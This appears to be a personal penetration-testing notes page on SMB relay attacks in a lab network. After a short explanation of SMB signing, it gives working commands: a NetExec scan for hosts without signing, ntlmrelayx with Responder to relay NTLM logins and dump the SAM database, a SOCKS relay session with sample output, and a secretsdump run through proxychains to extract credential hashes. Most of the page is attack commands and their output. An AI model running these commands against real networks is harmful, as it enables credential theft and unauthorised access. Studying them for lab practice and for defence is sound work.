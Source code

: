 **SMB Signing Relay Attacks** are an attack method used in network environments where an attacker targets SMB (Server Message Block) communications. It works by intercepting and relaying SMB authentication attempts to another system, allowing the attacker to authenticate as the victim and potentially gain unauthorised access, especially if SMB signing is not enforced.

SMB signing is a security feature that ensures the integrity and authenticity of SMB (Server Message Block) communications by adding a cryptographic signature to each message exchanged between a client and a server, preventing tampering and unauthorised message relay.

### NetExec

Search the network for hosts with SMB signing disabled:

```bash
nxc smb 192.168.56.0/24
```

![[Pasted image 20240816094216.png]]

Create a list of host with SMB signing disabled:

```bash
nxc smb 192.168.56.0/24 --gen-relay-list SMBRelayList.txt
```

Verify list:

```bash
cat SMBRelayList.txt
192.168.56.22
192.168.56.23
```

### Ntlmrelayx

If lucky enough to relay administrative credentials, this will dump the SAM database:

```bash
ntlmrelayx.py -tf SMBRelayList.txt -smb2support
```

Then start Responder in another terminal:

```bash
responder -I vboxnet0
```

### SOCKS Proxy

To interact with a target, use a SOCKS proxy:

```bash
ntlmrelayx.py -tf SMBRelayList.txt -smb2support -socks
```

```bash
ntlmrelayx> socks
Protocol  Target         Username            AdminStatus  Port 
--------  -------------  ------------------  -----------  ----
SMB       192.168.56.22  NORTH/ROBB.STARK    FALSE        445  
SMB       192.168.56.22  NORTH/EDDARD.STARK  TRUE         445  
SMB       192.168.56.23  NORTH/ROBB.STARK    FALSE        445  
SMB       192.168.56.23  NORTH/EDDARD.STARK  FALSE        445
```

Dump SAM:

```bash
proxychains -q secretsdump.py NORTH/EDDARD.STARK:ANYPASS@192.168.56.22
```



